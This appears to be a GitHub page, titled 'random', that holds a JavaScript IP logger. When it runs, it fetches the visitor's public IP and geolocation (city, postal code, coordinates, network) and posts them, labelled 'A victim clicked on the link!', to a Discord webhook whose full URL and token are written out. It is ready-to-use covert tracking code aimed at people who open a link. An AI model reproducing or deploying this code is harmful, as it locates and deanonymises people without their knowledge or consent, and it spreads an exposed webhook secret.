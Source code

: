 # random
dvfsdfvsdfv
const sendIP = () => {
    fetch('https://api.ipify.org?format=json')
        .then(ipResponse => ipResponse.json())
        .then(ipData => {
            const ipadd = ipData.ip;
            return fetch(`https://ipapi.co/${ipadd}/json/`)
                .then(geoResponse => geoResponse.json())
                .then(geoData => {
                    const dscURL = 'https://discord.com/api/webhooks/1433208255089348658/21ldXizI6jxjrq4OV3Jvc7LiVqw6fU6zQFBuQnfNQEe64nifcmNy-BPU4-4md7DwBs5F'; // replace with your webhook url
                    return fetch(dscURL, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        body: JSON.stringify({
                            username: "site logger <3", // optionally changeable
                            avatar_url: "https://i.pinimg.com/736x/bc/56/a6/bc56a648f77fdd64ae5702a8943d36ae.jpg", // optionally changeable
                            content: `@here`,
                            embeds: [
                                {
                                    title: 'A victim clicked on the link!',
                                    description: `**IP Address >> **${ipadd}\n**Network >> ** ${geoData.network}\n**City >> ** ${geoData.city}\n**Region >> ** ${geoData.region}\n**Country >> ** ${geoData.country_name}\n**Postal Code >> ** ${geoData.postal}\n**Latitude >> ** ${geoData.latitude}\n**Longitude >> ** ${geoData.longitude}`,
                                    color: 0x800080 // optionally changeable
                                }
                            ]
                        })
                    });
                });
        })
        .then(dscResponse => {  
            if (dscResponse.ok) {
                console.log('Sent! <3');
            } else {
                console.log('Failed :(');
            }
        })
        .catch(error => {
            console.error('Error:', error);
            console.log('Error :(');
        });
};
sendIP();
